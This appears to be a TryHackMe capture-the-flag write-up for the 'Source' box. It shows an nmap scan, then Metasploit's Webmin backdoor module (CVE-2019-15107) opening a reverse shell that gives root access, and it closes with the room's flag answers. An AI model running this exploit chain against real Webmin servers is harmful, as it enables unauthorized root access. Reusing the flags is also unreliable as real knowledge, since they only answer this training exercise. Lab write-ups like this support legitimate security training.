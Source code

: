 # Task 1 Embark
----

>>Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

>>The Journey by Ekaterina on Dribbble

>>This virtual machine is also included in the room AttackerKB as part of a guided experience. Additionally, you can download the OVA of Source for offline usage from https://www.darkstar7471.com/resources.html


## SCANNING :

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ nmap -sC -sV 10.10.207.87 -v 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 01:31 EST
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 8373D4E5F89AD48E510865E79F88867F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

>> The webpage runs webmin which has backdoor exploit. 

## GETTING SHELL WITH MSFCONSOLE 

>> Using msfconsole to get the shell.

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ msfconsole -q
msf6 > search CVE-2019-15107

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/linux/http/webmin_backdoor  2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/webmin_backdoor
msf6 > use 0
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 10.10.207.87
RHOSTS => 10.10.207.87
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.9.2.202
LHOST => 10.9.2.202
msf6 exploit(linux/http/webmin_backdoor) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.9.2.202:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.2.202:4444 -> 10.10.207.87:50176 ) at 2022-01-29 02:12:32 -0500
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
root@source:/usr/share/webmin/# cd /home/dark
root@source:/home/dark# cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
root@source:/# cd root
root@source:~# ls
root.txt
root@source:~# cat root.txt
THM{UPDATE_YOUR_INSTALL}
```

----

# ANSWER THE QUESTIONS :
----

1.user.txt
>>THM{SUPPLY_CHAIN_COMPROMISE}

2.root.txt
>>THM{UPDATE_YOUR_INSTALL}

----